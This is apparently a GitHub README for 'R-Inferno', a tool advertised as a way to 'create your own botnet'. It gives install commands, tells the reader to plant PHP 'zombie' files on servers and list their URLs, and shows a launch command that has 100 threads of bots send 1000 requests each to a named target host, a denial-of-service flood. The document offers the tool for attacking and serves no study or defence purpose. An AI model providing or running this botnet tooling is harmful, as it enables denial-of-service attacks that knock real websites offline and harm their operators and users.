 # R-Inferno - Create Your Own BotNet 
It is recommended to use with VDS/VPS while using the tool.

![Screenshot](Screenshot.png)

# Installation
```bash
git clone https://github.com/Rezn0y/R-Inferno.git
cd R-Inferno
pip install -r requirements.txt
```

# Making zombies
Go to your server and upload the Bot.php and RNet.php files. Then, take your zombie URL and add it to Bot.txt as shown in the examples below:
```bash
Sample Bots:
https://google.com/RNet.php?Send=
https://youtube.com/RNet.php?Send=
https://kick.com/RNet.php?Send=
https://yandex.com/RNet.php?Send=
https://github.com/RNet.php?Send=
```
Add them one below the other, then start the attack with R-Inferno.py.

# Options
R-Inferno.py
```bash
--list=(list) - List of zombies
--send=(command) - Command to send zombies
--threads=(number) - Number of threads
```
Bot.php
```bash
--host=(google.com) - Target Host
--req=(number) - Number of requests to be sent
```

# Usage
Usage example:
```bash
python R-Inferno.py --list=Bot.txt --threads=100 --send='--host=google.com --req=1000'
```
